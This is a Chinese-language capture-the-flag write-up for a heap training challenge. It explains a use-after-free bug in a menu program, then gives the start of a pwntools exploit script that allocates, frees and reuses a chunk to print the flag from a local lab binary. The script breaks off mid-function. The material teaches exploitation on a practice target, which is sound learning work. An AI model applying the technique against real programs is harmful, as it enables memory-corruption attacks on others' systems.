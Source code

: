 `atoi`，即 ASCII to Integer.

这题就是一个菜单程序，存在一个 `UAF (Use After Free)` 漏洞，简单来说就是在释放了一块内存后使用了指向已经被释放的内存的指针，这很容易造成的一个问题就是 Data disclosure.

简单分析这个程序我们发现，`read_flag` 会 `malloc` 一块空间，然后把 flag 写进去；`puts` 会输出 `ptr` 处的内容。我们的目的是输出 flag，那这个 `ptr` 就必须指向 flag 的起始地址才行。再观察 `malloc`，它会将分配后返回的地址赋值给 `ptr`。那思路就很清晰了：我们先使用 `malloc` 分配足够存下 flag 的内存，这会设置 `ptr`，之后 `free` 它，接着使用 `read_flag`，这会把 flag 写入 `malloc` 返回的地址处（同 `ptr` 保存的地址），最后调用 `puts` 就可以输出我们的 flag 了。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./babyheap_level1.0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def construct_payload():
    return [
        (b"malloc", b"1337"),
        (b"free", None),
        (b"read_flag", None),
        (b"puts", None),
    ]


def attack(target, payload):
    try:
        for cmd, arg in payload:
            target.sendlineafter(b": ", cmd)

            if arg is not None:
```